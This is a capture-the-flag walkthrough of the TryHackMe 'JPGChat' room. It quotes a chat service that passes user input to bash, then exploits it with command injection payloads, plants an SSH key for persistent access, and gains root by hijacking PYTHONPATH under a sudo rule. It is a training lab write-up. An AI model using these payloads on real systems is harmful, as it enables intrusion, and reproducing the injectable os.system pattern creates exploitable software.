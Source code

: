 ```bash
# PLATFORM          . THM
# CTF NAME          . JPGChat
# DESCRIPTION       . Exploiting poorly made custom chatting service written in a certain language...
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/jpgchat
```

```
sudo nmap -sSVC -T5 -p- 10.10.5.191 -oN jpgchat
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fecc3e203fa2f8096f2ca3affa329c94 (RSA)
|   256 e8180cadd0635f9dbdb784b8ab7ed197 (ECDSA)
|_  256 821d6bab2d04d50b7a9beef464b57f64 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.93%I=7%D=2/24%Time=65DA2F8B%P=x86_64-pc-linux-gnu%r(NU
SF:LL,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20this\x20
SF:service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\nMESSAG
SF:E\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(currentl
SF:y\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x20to\x20
SF:report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n")%r(Gen
SF:ericLines,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20t
SF:his\x20service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\
SF:nMESSAGE\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(c
SF:urrently\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x2
SF:0to\x20report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n"
SF:);
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	
```

#### PORT 3000

```
nc 10.10.5.191 3000
```

```
the source code of this service can be found at our admin's github
```

- After googling "jpgchat github" I end up [here](https://github.com/Mozzie-jpg/JPChat).

- Here's the source code.

```
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

- We see that in `report_form` both our name and our message are used alongsisde `bash -c`, thus allowing for command injection.

- This can be bypassed with `; [command #`.
- `;` is used to mark the end of `echo` and the start of the next command.
- then, `#` is used to skip writing to the file and instead executing the command. 

```
your name:
; ls #
your report:
; ls #

bin
boot
box_setup
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
vagrant
var
vmlinuz
vmlinuz.old
```

- I used the `ls` command multiple times and found out the `user.txt` flag in `/home/wes`. 
- We can grab it by using `; cat /home/wes/user.txt #`. 

- We could execute a reverse shell ... but I'm tired of this approach.

- Since SSH is enabled, I've decided to create a pair of SSH keys and place the public one on the server.

- I've used `; mkdir /home/wes/.ssh` to create the `.ssh` directory for wes.  
- On my host, I've generated a public:private key pair using `ssh-keygen`.

- I've placed the content of the public key in the `.ssh/authorized_keys` file (which will be created in the next command too).

```
; echo "ssh-rsaAAAAB3NzaC1yVXN9mRL993h7EopC{TRIMMED DOWN FOR READABILITY}rbd++9ovE=" > /home/wes/.ssh/authorized_keys #
```

- Then, from my host I've connected over with SSH.

```
ssh -i private_key wes@IP
```

```
ssh -i a wes@10.10.5.191

The authenticity of host '10.10.5.191 (10.10.5.191)' can't be established.
ED25519 key fingerprint is SHA256:kVofZUap+iF3U0N/x8eQa5Yvpx+y0z+oqFNIQFwNCOg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '10.10.5.191' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-197-generic x86_64)
```

#### PRIVILEGE ESCALATION

- After my checks for privilege escalation, I found the following 3 pieces of information that we need to link together to escalate privileges.

```
sudo -l
(root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

```
ls -l /opt/development/test_module.py
-rw-r--r-- 1 root root 93 Jan 15  2021 /opt/development/test_module.py
```

```
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

- So, we can run `/opt/development/test_module.py` as root.
- The script is not writable by us but is executed by root.
- What we care about is that the script imports a module.

- We can create another `compare.py` in our home directory with the following code

```
import pty
pty.spawn("/bin/bash")
exit()
```

- Then, update the ENV variable so we force python to load our `compare.py`.

```
export PYTHONPATH=.
```

- Then, just execute the script with sudo.

```
wes@ubuntu-xenial:~$ sudo /usr/bin/python3 /opt/development/test_module.py 
```

- The last flag is located in `/root/root.txt`.
	

